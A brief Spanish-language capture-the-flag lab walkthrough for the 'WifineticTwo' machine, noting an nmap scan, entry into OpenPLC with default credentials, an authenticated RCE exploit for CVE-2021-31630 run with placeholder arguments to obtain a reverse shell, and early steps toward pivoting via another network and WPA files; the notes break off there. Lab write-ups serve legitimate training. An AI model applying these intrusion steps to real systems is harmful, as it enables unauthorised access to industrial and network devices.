

WifineticTwo
- Realizo un escaneo de la máquina nmap 10.10.11.7 -Pn -sC -sV -A -p- -T4 -oA scan
- Encuentro los servicios SSH y HTTP abiertos
- Con el parametro -sC encuentro un login
- Pruebo con las credenciales default y consigo entrar openplc:openplc
- Encuentro un apartado para subir programas Pero tienen que ser con extensión .st
- Busco en internet algún exploit y encuentro CVE-2021-31630 que permite RCE Auntentificado.
- Ejecuto la script python exploit.py -ip <YOUR IP> -p <YOUR PORT> -u <USERNAME> -pwd <PASSWORD>
- Obtengo el reverse shell

- En esta máquina soy el usuario root pero no encuentro la flag de root.
- Creo que voy a tener que pivotar a otra máquina para obtener el root.
- con ifconfig encuentro otra red
- Voy a escanear esta red pero no está nmap instalado por lo que uso el comando arp


- Definitivamente el pivoting está ahí
- En la ruta /etc encuentro algo relacionado con el WPA